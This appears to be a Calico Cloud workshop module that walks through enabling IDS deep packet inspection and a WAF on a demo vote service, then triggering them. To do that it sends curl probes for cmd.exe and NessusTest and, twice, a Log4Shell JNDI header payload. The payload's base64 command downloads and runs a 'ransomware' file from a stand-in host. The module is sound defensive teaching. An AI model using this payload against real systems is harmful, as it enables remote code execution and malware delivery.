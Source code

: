 # Module 5 - Configuring IDS protection and Workload-Centric WAF

Security teams need to run DPI quickly in response to unusual network traffic in clusters so they can identify potential threats. Also, it is critical to run DPI on select workloads (not all) to efficiently use cluster resources and minimize the impact of false positives. Calico Cloud provides an easy way to perform DPI using Snort community rules. You can disable DPI at any time, selectively configure for namespaces and endpoints, and alerts are generated in the `Alerts` dashboard in Manager UI.

For this workshop, we will enable the IDS for the vote service and observe the alerts being created when trying to exploit some vulnerabilities.

1. First enable the `Intrusion Detection`

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: operator.tigera.io/v1
   kind: IntrusionDetection
   metadata:
     name: tigera-secure
   spec:
     componentResources:
     - componentName: DeepPacketInspection
       resourceRequirements:
         limits:
           cpu: "1"
           memory: 1Gi
         requests:
           cpu: 100m
           memory: 100Mi
   EOF
   ```

2. Next, create a `DeepPacketInspection` for the vote application in the vote namespace.

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: projectcalico.org/v3
   kind: DeepPacketInspection
   metadata:
     name: dpi-ids-vote
     namespace: vote
   spec:
     selector: app == "vote"
   EOF
   ```

3. Test the IDS emulating an attack to the vote service:

   - Find the IP address of the vote application and export it to the `VOTE_EXTERNAL` environment variable

     ```bash
     export VOTE_EXTERNAL=$(kubectl get svc -n vote vote -o=jsonpath='{.status.loadBalancer.ingress[*].ip}')
     ```

   - From your shell, execute the following commands.

     ```bash
     curl -m2 http://$VOTE_EXTERNAL/cmd.exe
     curl -m2 http://$VOTE_EXTERNAL/NessusTest
     ```

   - Observe the results in the Service Graph to see the generated alerts that will warn you about the exploitation attempt.

---

A web application firewall (WAF) safeguards web applications against a range of application layer attacks, including cross-site scripting (XSS), SQL injection, and cookie poisoning. Given that application attacks are the primary cause of breaches, protecting the HTTP traffic that serves as a gateway to valuable application data is crucial.

Calico Cloud WAF allows you to selectively run service traffic within your cluster and protect intra-cluster traffic from common HTTP-layer attacks. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

1. Deploy the WAF by running the following command:

   ```bash
   kubectl apply -f waf
   ```

2. Open a new Cloud Shell session and start a pod to simulate an attack on the vote service.

   ```bash
   kubectl run attacker --image nicolaka/netshoot -it --rm -- /bin/bash
   ```
3. Before protecting the service with the WAF, try the following command from the attacker shell. This request will simulate a LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

4. Now enable the WAF using the following command from your shell (not from the pod attacker).

   ```
   kubectl patch applicationlayer tigera-secure --type='merge' -p '{"spec":{"webApplicationFirewall":"Enabled"}}'
   ```

5. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```
   
   You will note that the result will be an HTTP 403 - Forbidden. This reponse returns from the WAF.

--- 

[:arrow_right: Module 6 - Quarantine Infected Workloads and KSPM](/mod/module-6-quarantine-kspm.md)  <br>

[:arrow_left: Module 4 - Security Guardrails for Network-based Threats](/mod/module-4-security-guardrails.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
